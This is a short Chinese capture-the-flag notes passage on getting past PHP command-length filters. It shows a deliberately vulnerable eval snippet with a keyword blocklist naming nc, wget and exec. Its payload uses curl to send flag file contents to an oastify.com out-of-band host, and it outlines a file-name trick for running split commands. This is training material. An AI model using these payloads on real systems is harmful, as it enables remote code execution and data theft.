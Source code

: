 ## **拼接绕过**
```
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```
传递自己变量，再执行
```
?F=`$F`; curl http://5lrtqoyzsnfd6s20fvez6ojwmnsfg94y.oastify.com/`cat flag.php|grep ctfshow`
```


^
## **汉字长度url编码绕过**
![](.topwrite/assets/image_1735208814032.png)



^
## **限制命令长度的远程命令**
如限制命令长度字符为9:
把超过9的命令进行base64编码
差分不同段成符合长度
命令换行
倒序每一个命令生成以文件名
文件名按时间查看，并写入一个文件
sh x 执行文件

查看当前目录中的文件内容flag。
先>nl
再*